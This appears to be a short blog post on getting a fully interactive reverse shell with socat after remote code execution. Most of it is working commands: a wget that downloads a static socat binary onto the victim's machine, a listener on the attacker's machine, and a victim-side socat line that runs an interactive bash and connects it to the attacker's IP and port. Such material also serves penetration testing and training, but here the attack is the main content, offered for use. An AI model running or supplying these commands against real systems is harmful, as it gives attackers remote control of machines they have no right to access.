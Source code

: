 ```yaml
---
layout: post
comments: true
title: "Get Full Interactive reverse Shell With Socat"
tags: ['rce','socat','reverse-shell']
---
```



## Introduction
Today we are going to see a nice method to get an interactive reverse shell with socat.
A few adventages of use interactive shells are the next ones:
- Ctrl + C work just fine, when you press it it doesn't exit the shell, just stop the process is running
- Autocompletation (Tabuation), in normal reverse shells tabulation just add a tabulation, in interactive shells tabs can autocomplete your code.

## Installing socat
Socat may not be installed in the victim's machine so we first we have to install it.<br>
In this [repo][repo] we have a lot of binaries ready to be downloaded and executed, socat is one of this:
```bash
wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
```


## Getting reverse shell

In $PORT we can choose a free port like 443

In our attacker's machine:
```bash
socat file:'/dev/tty',raw,echo=0 tcp-listen:$PORT
```


In our victim's machine
```bash
./socat exec:'bash -li',pty, stderr, setsid, sigint, sane tcp:$ATTACKERS_IP:$PORT
```


[repo]: https://github.com/andrew-d/static-binaries